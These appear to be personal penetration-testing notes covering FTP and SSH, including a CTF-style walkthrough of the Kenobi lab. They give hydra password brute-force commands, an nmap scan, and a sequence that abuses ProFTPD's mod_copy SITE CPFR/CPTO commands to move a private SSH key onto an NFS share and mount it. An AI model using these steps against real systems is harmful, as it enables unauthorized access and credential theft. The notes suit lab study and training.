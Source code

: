 ```
hydra -t X -l USERNAME -P WORDLIST -vV IP ftp
```

### Connection

```
ftp [options] [IP]
```
## Proftpd
### 1-The mod_copy module implements **SITE CPFR** and **SITE CPTO** commands

![[Pasted image 20241223210604.png]]

We knew that the /var directory was a mount we could see. So we've now moved Kenobi's private key to the /var/tmp directory.

Lets mount the /var/tmp directory to our machine
```
mkdir /mnt/kenobiNFS  
mount machine_ip:/var /mnt/kenobiNFS  
ls -la /mnt/kenobiNFS
```

![[Pasted image 20241223210740.png]]

We now have a network mount on our deployed machine! We can go to /var/tmp and get the private key then login to Kenobi's account.

![[Pasted image 20241223210800.png]]

# SSH

## Find SSH Port

```
nmap -sV -SC IP -p22
```

## Attack

```
hydra -t X -l USERNAME -P WORDLIST -vV IP ssh
```

## Connection

### Linux Connection
